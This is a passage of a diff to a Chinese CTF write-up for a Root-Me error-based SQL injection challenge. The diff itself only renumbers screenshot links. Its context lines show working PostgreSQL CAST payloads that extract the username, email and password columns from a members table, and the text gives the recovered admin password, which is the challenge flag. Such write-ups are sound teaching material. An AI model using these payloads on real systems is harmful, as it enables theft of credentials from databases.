 `,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3 GROUP BY us3rn4m3_c0l, id, p455w0rd_c0l) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/23.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/25.png)
 
 继而从异常中得到新的一列 `em41l_c0l`，利用之构造新的 payload 如下：
 
@@ -346,7 +468,7 @@ SELECT attname FROM pg_attribute pa, pg_class pc WHERE pa.attrelid = pc.oid AND 
 
 说明 `GROUP BY` 已经包含了所有列并查询了结果返回，但新返回值多于 1 列，所以使得我们的 payload 报错。
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/24.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/26.png)
 
 ------------
 
@@ -364,25 +486,25 @@ SELECT attname FROM pg_attribute pa, pg_class pc WHERE pa.attrelid = pc.oid AND 
 
 `,(CAST(CHR(62)||(SELECT id FROM m3mbr35t4bl3) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/25.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/27.png)
 
 如下构造查询 `em41l_c0l` 列数据的 payload，得到 `admin@localhost` ：
 
 `,(CAST(CHR(62)||(SELECT em41l_c0l FROM m3mbr35t4bl3) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/26.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/28.png)
 
 如下构造查询 `us3rn4m3_c0l` 列数据的 payload，得到 `admin` ：
 
 `,(CAST(CHR(62)||(SELECT us3rn4m3_c0l FROM m3mbr35t4bl3) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/27.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/29.png)
 
 如下构造查询 `p455w0rd_c0l` 列数据的 payload，得到 `1a2BdKT5DIx3qxQN3UaC` ：
 
 `,(CAST(CHR(62)||(SELECT p455w0rd_c0l FROM m3mbr35t4bl3) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/28.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/30.png)
 
 ------------
 
@@ -390,7 +512,7 @@ SELECT attname FROM pg_attribute pa, pg_class pc WHERE pa.attrelid = pc.oid AND 
 
 使用得到的账号 `admin` 和密码 `1a2BdKT5DIx3qxQN3UaC` 登陆，得知这个密码就是 flag，完成挑战：
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/29.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/31.png)
 
 ------
 
